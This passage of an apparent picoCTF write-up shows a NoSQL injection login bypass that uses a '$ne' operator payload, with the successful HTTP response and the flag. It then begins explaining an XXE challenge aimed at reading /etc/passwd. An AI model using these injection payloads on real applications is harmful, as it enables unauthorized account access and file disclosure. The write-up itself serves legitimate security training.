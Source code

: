 ```python
        res.status(500).json({ success: false, error: err.message });
      }
    });

    app.listen(port, () => {
    });
  } catch (err) {
    console.error(err);
  }
}

startServer().catch((err) => console.error(err));

```
After some time researching and injecting a `NoSQL payload`, I realized that we need to use the `correct syntax`. Instead of injecting directly in `Burp Suite`, I entered it directly into the form to avoid errors
`payload`
```
{"email":"picoplayer355@picoctf.org","password":"{\"$ne\":\"null\"}"}
```
`result`
```
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: application/json; charset=utf-8
Content-Length: 186
ETag: W/"ba-WHLFshfl2LDeN/UsVHgH9qEq+U0"
Date: Fri, 21 Feb 2025 11:03:58 GMT
Connection: keep-alive
Keep-Alive: timeout=5

{"success":true,"email":"picoplayer355@picoctf.org","token":"cGljb0NURntqQmhEMnk3WG9OelB2XzFZeFM5RXc1cUwwdUk2cGFzcWxfaW5qZWN0aW9uXzc4NGU0MGU4fQ==","firstName":"pico","lastName":"player"}
```
`flag: picoCTF{jBhD2y7XoNzPv_1YxS9Ew5qL0uI6pasql_injection_784e40e8}`
This vulnerability exploits inconsistencies in query statements to create an authentication bypass.

Docs at [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/NoSQL%20Injection/README.md)

### SOAP
`Description`
```
The web project was rushed and no security assessment was done. Can you read the /etc/passwd file?
Web Portal
``` 

This challenge involves an `XXE (XML External Entity)` vulnerability. This occurs when an application processes `XML` without disabling the Entities feature. It can be exploited to read files on the `system`, make HTTP requests, or even achieve `Remote Code Execution (RCE)` in some cases. When the server receives an `XML` containing a `DOCTYPE` with an external `entity (SYSTEM)`, it attempts to parse and resolve that `entity`
